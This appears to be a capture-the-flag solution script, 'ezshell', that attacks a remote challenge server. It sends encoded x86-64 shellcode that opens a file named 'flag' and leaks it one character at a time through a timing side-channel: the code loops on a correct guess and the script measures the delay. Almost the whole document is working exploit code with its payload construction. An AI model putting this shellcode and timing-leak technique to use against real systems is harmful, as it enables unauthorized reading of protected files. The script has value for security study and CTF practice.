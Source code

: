 ### ezshell

```python
from pwn import*
context(os='linux',arch='amd64',log_level='info')

index=14
possible_list="{}_-abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789\x00"
flag=""

while (True):
	for i in range(len(possible_list)):
		char=ord(possible_list[i])
		#r=process('./main')
		r=remote('8.134.37.86',26819)
		shell=''
		shell+=asm("""
				push 0x2
				pop rax
				mov rdi,0x101FC
				xor rsi,rsi
				xor rdx,rdx
				syscall
				push 0x2
				pop rax
				syscall
				xor rax,rax
				xchg rdi,rsi
				push 0x4
				pop rdi
				pushfq
				pop rdx
				syscall
			""")

		shell+=asm("mov bl,byte ptr[rsi+"+hex(index)+"]")
		shell+=asm("cmp bl,"+hex(char))
		shell+=asm("jz $-0x3")

		input=open('shellcode','wb')
		input.write(shell)
		input.close()

		p=os.popen("python2 shellcode_encoder-master/main.py shellcode rdx")
		output=p.read()
		p.close()

		output=output.split("\n")
		shell=output[len(output)-2]

		r.recvline()
		#gdb.attach(r,'b *$rebase(0xF18)')
		r.send(shell.ljust(0x1fC,'a')+'flag')
		start=time.time()
		r.can_recv_raw(timeout=3)
		end=time.time()
		r.close()
		if (end-start>3):
			flag+=possible_list[i]
			print flag
			break
	index=index+1
	if (flag[len(flag)-1]=='}'): break
```